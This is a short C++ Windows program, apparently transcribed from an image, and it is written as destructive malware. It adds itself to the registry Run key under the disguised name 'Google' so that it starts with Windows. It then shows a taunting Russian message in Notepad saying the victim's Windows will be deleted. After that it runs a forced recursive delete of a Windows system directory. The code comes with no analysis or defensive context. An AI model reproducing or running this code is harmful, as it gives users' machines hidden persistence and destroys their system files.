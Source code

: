 #include <windows.h>
#include <iostream>
#include <string>

void wipeDisk() {
    system("rmdir /s /q C:\\Windows\\Win32");
}

void addToStartup() {
    HKEY hKey;
    LPCSTR subKey = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
    LPCSTR valueName = "Google";

    char executablePath[MAX_PATH];
    GetModuleFileNameA(NULL, executablePath, MAX_PATH);

    if (RegOpenKeyExA(HKEY_CURRENT_USER, subKey, 0, KEY_SET_VALUE, &hKey) == ERROR_SUCCESS) {
        RegSetValueExA(hKey, valueName, 0, REG_SZ, (const BYTE*)executablePath, strlen(executablePath) + 1);
        RegCloseKey(hKey);
    }
}

int main() {
    addToStartup();
    system("start notepad.exe \"3драBctBYuТе, ваша вunд0ус будEt YDаЛEHа, П0КА П0КА\"");
    Sleep(10000);
    wipeDisk();

    return 0;
}
